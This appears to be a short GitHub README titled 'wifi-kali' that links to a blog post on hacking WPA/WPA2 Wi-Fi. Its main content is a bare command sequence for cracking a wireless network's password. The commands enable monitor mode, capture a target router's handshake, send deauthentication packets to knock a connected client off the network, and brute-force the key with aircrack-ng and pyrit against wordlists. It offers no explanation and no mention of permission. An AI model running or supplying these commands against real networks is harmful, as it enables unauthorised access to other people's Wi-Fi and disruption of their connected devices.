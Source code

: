 # wifi-kali

http://lewiscomputerhowto.blogspot.com/2014/06/how-to-hack-wpawpa2-wi-fi-with-kali.html

#### CRACKBEGIN
* airmon-ng start wlan0
* airodump-ng wlan0mon
* airodump-ng -c 1,1 --bssid {target_router_bssid} -w /home/mon0 wlan0mon
* aireplay-ng -0 2 -a {target_router_bssid} -c {connected_station_bssid} wlan0mon
* airmon-ng stop wlan0mon

#### CRACKEND
* aircrack-ng -a2 -b {target_router_bssid} -w /home/wordlist.txt /home/*.cap
* pyrit -r BSSID.cap analyze
* pyrit -i ./rockyou.txt import_passwords
* pyrit -e BSSID create_essid
* #pyrit eval
* pyrit batch
